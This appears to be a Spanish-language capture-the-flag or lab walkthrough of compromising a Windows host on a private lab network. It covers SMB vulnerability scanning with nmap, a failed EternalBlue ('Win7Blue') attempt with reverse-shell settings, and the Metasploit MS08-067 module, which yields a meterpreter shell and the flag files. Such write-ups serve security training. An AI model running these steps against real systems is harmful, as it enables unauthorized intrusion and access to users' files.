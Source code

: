
IP local: 10.0.22.4
IP remota: 10.0.22.6
***Abrimos consola***
- netdiscover -r 10.0.22.0/24
	- *Descubrimos que ip sale que no es usual*	
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- **PROBAMOS EL WIN7BLUE**
- cd /home/user/Desktop/Win7Blue
- chmod +x Win7Blue
- ./Win7Blue
	- $:1
	- RHOST: (Ip remota u del objeto)
- ./Win7Blue
	- $: **4** (o 3, dependiendo de la arquitectura del sistema)
	- RHOST: (ip remota u objetivo)
	- LHOST(ip local, ya sea kali o host usado)
	- LPORT: (puerto en escucha de la consola abierta)
	- *Darle a enter*
- Vemos que no funciona este método, así que recurrimos al otro con el metasploit:


- Buscamos la vulnerabilidad con el comando nmap:
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- ![Pasted image 20241009183608](https://github.com/user-attachments/assets/c32e00df-f754-439f-b292-147c71c84497)
  
- searchsploit MS08-067
- ![Pasted image 20241009183946](https://github.com/user-attachments/assets/76787312-2e7d-461b-9938-ff3b39777006)
  
- msfconsole
- search MS08-067
- use 0
- show options
- ![Pasted image 20241009184040](https://github.com/user-attachments/assets/74143a1e-1cad-4415-a660-cd2d161043d6)
  
-  set rhosts 10.0.22.6
- show options
- ![Pasted image 20241009184121](https://github.com/user-attachments/assets/85a24e73-9f71-4821-912c-92b66427865b)
  
- Exploit:
	- En este caso, no funciona ya que no se puede llegar, así que se hará una modificación de los puertos locales:
	- ![Pasted image 20241009184247](https://github.com/user-attachments/assets/030cc503-5ac2-4686-84cf-9913dff3e508)
   
- Exploit:
	- De nuevo no funciona, así que le cambiamos de nuevo el puerto:
	- ![Pasted image 20241009184353](https://github.com/user-attachments/assets/f475be53-419b-4c72-8aca-eb027f1e5973)
   
- Exploit
	- En este caso, ya ha funcionado.
- *Cuando sale el meterpreter:*
- shell
- **En este momento, ya hemos entrado al shell de la máquina vulnerable**
- dir
- dir C:\\![Pasted image 20241009184547](https://github.com/user-attachments/assets/7c56b549-809d-408b-986c-a80c155c524f)
  
- cd C:\\Documents and Settings
- dir C:\\Documents and Settings![Pasted image 20241009184616](https://github.com/user-attachments/assets/47891447-2c1e-4969-86f5-89854f5c1183)
  
- cd C:\\Documents and Settings\\bill
- dir C:\\Documents and Settings\\bill![Pasted image 20241009184654](https://github.com/user-attachments/assets/80200e24-3665-4b5d-bd2b-996a908a15c9)

- C:\\Documents and Settings\\bill\\Desktop![Pasted image 20241009184712](https://github.com/user-attachments/assets/b06888e4-266f-4ed0-a7c2-9f1e4207452a)

- type root.txt
- type user.txt
- ![Pasted image 20241009184745](https://github.com/user-attachments/assets/13cc4202-a09a-443a-b075-1d27c90ef032)




